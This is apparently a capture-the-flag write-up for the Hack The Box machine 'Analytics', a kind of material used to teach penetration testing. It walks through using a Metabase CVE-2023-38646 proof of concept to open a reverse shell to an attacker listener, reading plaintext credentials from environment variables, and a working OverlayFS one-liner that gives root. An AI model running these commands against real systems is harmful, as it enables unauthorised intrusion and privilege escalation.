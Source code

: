 # Analytics

Analytics is a easy machine on HTB.

## Enumeration

First we check the open port via **nmap**.

![nmap](./assets/images/nmap.png)


The ports 22, 80 are open.
Let's check the port 80 first. For that we need to add the **domain** to our **hosts** file.

```bash
echo "10.10.11.233   analytical.htb" | sudo tee -a /etc/hosts
```
![website](./assets/images/website.png)


This is what you should see after browsing to the domain. It seems like a basic website. Let's perform some **dirsearch**.

![gobuster](./assets/images/gobuster.png)

Nothing of interest, let's try to login.

![url](./assets/images/url.png)

We have been redirected to the subdomain : `data.analytical.htb`. Don't forget to add it to your hosts file.

```bash
echo "10.10.11.233   data.analytical.htb" | sudo tee -a /etc/hosts
```

## Foothold

![login](./assets/images/login.png)

If we can obtain the version of **Metabase** maybe we can find some CVE. For that we can use curl.

```bash
curl http://data.analytical.htb/ | grep version
```

![version](./assets/images/version.png)

The version is : 0.46.6, we can search if fome exploit exist for this version. And there is this one, **CVE-2023-38646** which we can achieve Remote code execution pre authentication with it and so obtain a reverse shell. I will use [this poc](https://github.com/securezeron/CVE-2023-38646.git) to exploit the cve.

Git clone it, first we need to retrieve the setup token.

![poc](./assets/images/poc.png)

Now we can execute a reverse shell. Don't forget to setup a netcat listener.
```bash
python3 CVE-2023-38646-Reverse-Shell.py --rhost data.analytical.htb --lhost YOUR_IP --lport 1234
```
![revshell](./assets/images/revshell.png)

And we have a shell as **metadata** user !

## User flag

If we print the env, we can see two suspicious variable.

![env](./assets/images/env.png)

So let's try to login as `metalytics:An4lytics_ds20223#`.

```bash
ssh metalytics@10.10.11.233
```
![user_flag](./assets/images/user_flag.png)

We have the user flag !

## Privilege escalation

Let's obtain some information about the kernel with `uname -a` and `lsb_release -a`
We are on the version 6.2.0 of Ubuntu 22.04.3 LTS (Jammy Jellyfish).
[This](https://www.wiz.io/blog/ubuntu-overlayfs-vulnerability) blog talk about a vulnerability whixh can lead to privilege escalation. And this version of the kernel is vulnerable to it. There are a lot of poc but we will use this one:

```bash
unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;
setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("/bin/bash")'
```

![root_flag](./assets/images/root_flag.png)






